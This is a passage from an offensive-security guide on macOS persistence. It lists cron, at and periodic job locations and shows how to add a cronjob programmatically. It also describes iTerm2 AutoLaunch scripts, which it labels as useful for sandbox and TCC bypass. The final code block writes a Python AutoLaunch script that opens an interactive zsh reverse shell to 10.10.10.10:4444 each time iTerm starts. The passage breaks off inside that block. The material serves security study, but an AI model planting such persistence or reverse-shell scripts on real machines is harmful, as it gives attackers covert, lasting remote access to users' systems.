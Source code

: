 You can also see all the cron jobs of the users in **`/usr/lib/cron/tabs/`** and **`/var/at/tabs/`** (needs root).

In MacOS several folders executing scripts with **certain frequency** can be found in:

```bash
# The one with the cron jobs is /usr/lib/cron/tabs/
ls -lR /usr/lib/cron/tabs/ /private/var/at/jobs /etc/periodic/
```

There you can find the regular **cron** **jobs**, the **at** **jobs** (not very used) and the **periodic** **jobs** (mainly used for cleaning temporary files). The daily periodic jobs can be executed for example with: `periodic daily`.

To add a **user cronjob programatically** it's possible to use:

```bash
echo '* * * * * /bin/bash -c "touch /tmp/cron3"' > /tmp/cron
crontab /tmp/cron
```

### iTerm2

Writeup: [https://theevilbit.github.io/beyond/beyond\_0002/](https://theevilbit.github.io/beyond/beyond\_0002/)

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
* TCC bypass: [✅](https://emojipedia.org/check-mark-button)
  * iTerm2 use to have granted TCC permissions

#### Locations

* **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch`**
  * **Trigger**: Open iTerm
* **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch.scpt`**
  * **Trigger**: Open iTerm
* **`~/Library/Preferences/com.googlecode.iterm2.plist`**
  * **Trigger**: Open iTerm

#### Description & Exploitation

Scripts stored in **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch`** will be executed. For example:

```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh" << EOF
#!/bin/bash
touch /tmp/iterm2-autolaunch
EOF

chmod +x "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh"
```

or:

```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.py" << EOF
#!/usr/bin/env python3
import iterm2,socket,subprocess,os

async def main(connection):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['zsh','-i']);
    async with iterm2.CustomControlSequenceMonitor(
            connection, "shared-secret", r'^create-window$') as mon:
        while True:
            match = await mon.async_get()
            await iterm2.Window.async_create(connection)

iterm2.run_forever(main)
```